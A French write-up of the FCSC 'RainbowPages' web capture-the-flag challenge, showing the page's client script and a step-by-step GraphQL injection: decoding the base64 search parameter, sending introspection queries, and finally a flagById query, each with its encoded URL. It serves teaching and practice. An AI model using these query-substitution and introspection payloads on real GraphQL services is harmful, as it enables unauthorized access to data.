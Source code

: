 # <center>RainbowPages</center>

<center>

![](./RP.png)
</center>

On arrive sur cette page

![](./RB1.png)

Voyons voir le code source, ça pourrait un peu nous éclairer

```javascript
    <script>
		function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa('{ allCooks (filter: { firstname: {like: "%'+searchInput+'%"}}) { nodes { firstname, lastname, speciality, price }}}');
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
	</script>
```

Vu la tête de la requête on peut se dire qu'il s'agit en réalité de GraphQL et que donc le challenge ici va consister en une GraphQL injection.

L'endpoint est situé à /index.php?search= comme on peut le voir dans le script ci-dessus.
<br>
Maintenant essayons de rentrer quelque chose dans la barre de recherche du site.
<br>
![](./RB2.png)

On peut voir que la requête est bien faite à /index.php?search= et que le paramètre mis à search est une chaîne en base64, déchiffrons là.

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/Web/Rainbow Pages/1$ echo eyBhbGxDb29rcyAoZmlsdGVyOiB7IGZpcnN0bmFtZToge2xpa2U6ICIlZXhlbXBsZSUifX0pIHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZSB9fX0= | base64 -d
    { allCooks (filter: { firstname: {like: "%exemple%"}}) { nodes { firstname, lastname, speciality, price }}}

Nous avons donc notre requête qui est directement envoyée à partir de l'url, pour exploiter cette vulnerabilité nous avons juste à remplacer la requête initiale par une autre préalablement choisie.
<br>
Essayons d'afficher tous les champs à l'aide de la requête 

    {  
     __schema {
        types {
        name
        }
     }
    }

Il faut donc maintenant la mettre en base 64, ce qui nous donne la requête finale ```/index.php?search=ewogIF9fc2NoZW1hIHsKICAgIHR5cGVzIHsKICAgICAgbmFtZQogICAgfQogIH0KfQo=```

![](./RB3.png)

On voit alors tous les champs GraphQL.
<br>
Mais cela ne nous intéresse pas vraiment ici, essayons plutôt de lister les Queries avec la requête

    {
     __schema {
        queryType {
        fields {
            name
            description
        }
        }
     }
    }

soit ```/index.php?search=ewogIF9fc2NoZW1hIHsKICAgIHF1ZXJ5VHlwZSB7CiAgICAgIGZpZWxkcyB7CiAgICAgICAgbmFtZQogICAgICAgIGRlc2NyaXB0aW9uCiAgICAgIH0KICAgIH0KICB9Cn0K```

Ce qui nous donne

![](./RB4.png)

En essayant d'afficher le contenu des différents champs avec la payload

    {
    __type(name: "Champ") {
        name
        fields {
        name
        type {
            name
            kind
        }
        }
    }
    }

On ne trouve pas grand chose d'intéressant.
Alors des champs devraient plus nous attirer que d'autres, ceux contenant le mot 'flag'. 
<br>Alors après s'être un peu renseigné sur la syntaxe GraphQL on apprend que l'on peut rajouter des paramètres aux requêtes envoyées, alors on test plusieurs requêtes sur les champs 'flag', 'allFlags' et 'flagById'.
<br>En se penchant sur le 'flagById' on arrive à avoir quelque chose de concluant en mettant l'id à 1 et en affichant 'flag', comme ceci : 

    { 
    flagById(id: 1) {
        flag 
    }
    }

soit ```/index.php?search=IHsgCiAgICBmbGFnQnlJZChpZDogMSkgewogICAgICAgIGZsYWcgCiAgICB9CiB9Cg==```

La page nous renvoit 

![](./RB5.png)

:)
